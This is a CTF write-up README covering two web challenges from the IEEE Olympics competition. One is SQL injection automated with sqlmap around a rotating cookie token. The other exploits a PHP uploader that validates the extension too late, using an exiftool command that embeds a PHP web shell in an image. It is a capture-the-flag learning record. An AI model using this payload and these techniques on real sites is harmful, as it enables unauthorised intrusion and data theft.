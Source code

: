 # IEEE Olympics CTF Competition Writeups

## Description
IEEE Olympics CTF Competition organized and managed by IEEE Mansoura Student Branch & EG CERT

CTF Competition Style: jeopardy

Time: 6 hours

## Challenges
### [1- Web : Inj3ct th!s - 200 points](https://github.com/D4rkTT/IEEE-Olympics-CTF-Writeups#)

in this challenges we have login form and as challenge name its should be sql injection

so i tested it but its well protected against sql injection
so back to hints:
```You don't need to bruteforce directories or credentials at all. Do you know how search engines work?```

yes its ``robots.txt`` file

when i opened it its contain ``User-agent: * Disallow: /user_info.php``

when i opened it its only contain ``Invalid input!`` in response so i bruteforced the parameters and found ``uid`` working so i gave it value 1 
so response was 
```html
<script>document.cookie="token=1250816630"</script><meta http-equiv="refresh" content="time; URL=user_info.php?uid=1"/>
```
then redirect me and response was
```html
id: 1<br>Name: Forrest Hamilton<br>Email: accumsan.convallis.ante@convallis.net<br><script>document.cookie="token=320196787"</script>
```
when i try ``user_info.php?uid=1 AND 1=1`` & ``user_info.php?uid=1 AND 1=2`` its working perfrect but wait i can't automate the injection using sqlmap cuz csrf token :"(

token is changing and can't send more than 1 request with same token so its csrf token but every time i send request to ``user_info.php?uid=1`` response back with javascript code to set new csrf token in cookie then refresh the page to get result.

i tried a lot but no way .. i tried Roles & Macros in burp and its working in parameters only so can't get token from response body and set it to cookie in next request i can set it only to any parameters

so i can't automate the process and i must do it manually and its boolean based xD

so i tried a lot untill i did it, so i wrote a php script and run it on localhost server

the script send request without token to get new token then set it as cookie with ``setcookie`` function

and back to sqlmap and add these parameters `` --csrf-url="http://localhost/ctf/Inj3ct this.php" --csrf-token="token" `` and its asked me to merge the cookies so i said yes and holaaaa i automated sql injection with sqlmap with ``Generic UNION query (NULL) - 5 columns`` payload xD
and got DB name and table name but can't get columns because ``schema`` is blocked as hints said :(
so i brueforced it and table columns name is: `id, name, user_name, user_password`

dumped the database and got username of admin: ``admin`` and his password as plaintext: ``Sup3rS3cretP@ssw0rd``
back to login form and loggin in and holaaa here is the flag :  ````IEEE{Sch3ma0xa46480_is_Aw3some}````


### [2- Web : S3cure uploader - 200 points](https://github.com/D4rkTT/IEEE-Olympics-CTF-Writeups#)
here we have simple file uploader and we got source code
```php
<?php
if(isset($_GET["upload"])) {
$target_dir = "uploads/";
$vars = explode(".", $_FILES["FileToUpload"]["name"]);
$filename=$vars[0];
$ext = $vars[1];
//randomizing file name
$time = date('Y-m-d H:i:s');
$new_name = md5(rand(1,1000).$time.$filename."0x4148fo").".".strtolower(pathinfo(basename($_FILES["FileToUpload"]["name"]),PATHINFO_EXTENSION));
$filename=explode(".", $_FILES["FileToUpload"]["name"])[0];
$ext = $filename=explode(".", $_FILES["FileToUpload"]["name"])[1];
$target_file = $target_dir . "$new_name";
// Check if file already exists
if (file_exists($target_file)) {
  echo "File already exists.";
  $uploadOk = 0;
  die();
}
// Check file size
if ($_FILES["FileToUpload"]["size"] > 500000) {
  echo "File is too large.";
  $uploadOk = 0;
  die();
}
$uploadOk = 1;
$check = getimagesize($_FILES["FileToUpload"]["tmp_name"]);
if($check !== false) {
    $uploadOk = 1;
} else {
    echo "File is not an image.";
    $uploadOk = 0;
    die();
  }
}
move_uploaded_file($_FILES["FileToUpload"]["tmp_name"], $target_file);
if(strtolower(pathinfo(basename($_FILES["FileToUpload"]["name"]),PATHINFO_EXTENSION))=="jpg"){
echo "File uploaded successfully to $target_file";
}
else{
	die("Invalid file type");
}
?>
```
so after reading and analyse it i found big serious problem, the script check file extension after moving uploaded file to uploading folder LOL xD
but server reset every 10 mins so we have only 10 mins xD

also if i uploaded anything except jpg it won't give me the file name so i must get file name manually

but SAD the file name is md5 hash of random number + date + filename without ext + custom string WTF !!

but wait random number from 1 to 1000 only so its easy to brueforce it

and we can get date from response headers xD

and we got file name of course and custom string

but wait it check image uploaded with `getimagesize` function but its easy to bypass by injecting php payload into image exif data by ``exiftool -Comment='<?php  system($_GET['cmd']); ?>' test.jpg``

also script check file size so we should inject php payload into small image, my image size after injecting php code inside it was 677 bytes :D

then change image name to `anything.php` then upload it and get date from response and edit my php script (was have no time to write it with python or any lanuage else xD) with it then run my script
so now we have 1000 filenames as md5 hash
so back to burp intruder and paste my list on payload list and start attack and wait 200 response code and holaaaa we got web shell uploaded :D
and now we can get flag inside flag.php file :D

